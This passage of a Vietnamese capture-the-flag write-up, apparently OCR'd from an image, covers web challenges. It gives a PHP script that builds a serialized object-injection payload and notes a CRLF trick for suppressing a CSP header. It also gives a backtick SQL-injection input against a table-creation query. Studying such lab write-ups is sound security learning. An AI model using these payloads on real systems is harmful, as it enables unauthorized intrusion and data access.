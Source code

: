 ```php

namespace {
    class UserData extends \ShouFramework\Typed {
        public $token_string = 'test';

        protected function construct() {}

        protected function destruct() {}
    }

    class CatWithHashGet extends \ShouFramework\HTTP {
        public UserData $user_object;
        public \ShouFramework\CSP $csp_object;

        public function construct() {
            parent::construct();
            $this->user_object = new UserData();
            $this->csp_object = new \ShouFramework\CSP();
        }

        public function render() {}
    }

    echo urlencode(serialize([new CatWithHashGet])) . PHP_EOL;
}
?>
```
Payload challenge CSP 3 thì chúng ta chỉ cần thay đổi `$report_uri_string` thành `\r\n` để thì header CSP sẽ không được thêm vào.

## Challenge CloudTable
Chúng ta thử nhập vô `Attribute Name` với một giá trị bất kì thì sau đó chương trình sẽ load ra cho mình 1 json gồm các thông tin như `host, DB, username, password, tablename`. Vậy chúng ta chúng ta truy cập vào thử thì thấy được value mà chúng ta nhập ở trên là tên của một column

### Solution

```py
create_sql_tmpl = f"CREATE TABLE `{BASE_DB}`.`{table_name}`("
        for i in info_arr:
            create_sql_tmpl += f"`%s` {SCHEMA_TYPES[int(schema[i])]},"
        create_sql_tmpl = create_sql_tmpl[:-1] + ");"
```
Ở đoạn code ta thấy được họ sài \` vậy mình sử dụng nó để escape đoạn tạo column chính là giá trị tại tham số `Attribute Name`. 

Thử nhập vô
```
taidh` INT,taidh1 INT)-- -
```
Sau khi connect thì thấy được có thêm một column taidh1 được tạo => sure có thể injection vào đây
